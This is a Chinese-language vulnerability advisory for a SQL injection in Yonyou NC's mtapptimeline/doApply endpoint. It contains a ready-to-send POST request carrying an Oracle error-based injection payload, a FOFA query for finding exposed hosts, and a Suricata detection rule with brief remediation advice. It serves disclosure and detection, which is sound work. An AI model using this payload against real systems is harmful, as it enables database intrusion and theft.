

# 用友NC mtapptimelinedoApply 存在SQL注入漏洞

用友NC mtapptimelinedoApply 存在SQL注入漏洞，攻击者可进行sql注入攻击获取数据库信息或者权限。

# 影响版本

用友NC 

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="用友-UFIDA-NC"

POC/EXP：

```
POST /portal/pt/mtapptimeline/doApply HTTP/1.1
Host:127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded

pageId=login&meapk=1' AND 7722=UTL_INADDR.GET_HOST_ADDRESS(CHR(113)||CHR(122)||CHR(106)||CHR(98)||CHR(113)||(SELECT (CASE WHEN (7722=7722) THEN 1 ELSE 0 END) FROM DUAL)||CHR(113)||CHR(120)||CHR(120)||CHR(98)||CHR(113))-- Jvzs
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"用友NC - /portal/pt/mtapptimeline/doApply meapk Oracle报错/布尔注入 (UTL_INADDR.GET_HOST_ADDRESS)";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/portal/pt/mtapptimeline/doApply";
        fast_pattern;
    http.content_type; content:"application/x-www-form-urlencoded";
    http.request_body;
        content:"meapk=";
        content:"UTL_INADDR.GET_HOST_ADDRESS"; distance:0; nocase;
        content:"CHR("; distance:0; nocase;
        content:"FROM DUAL"; distance:0; nocase;
    metadata:
        service http,
        affected_product "用友 NC",
        vulnerability_type "SQL Injection (Oracle) / Out-of-Band / Boolean",
        severity "high";
    classtype:web-application-attack;
    sid:1000761;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
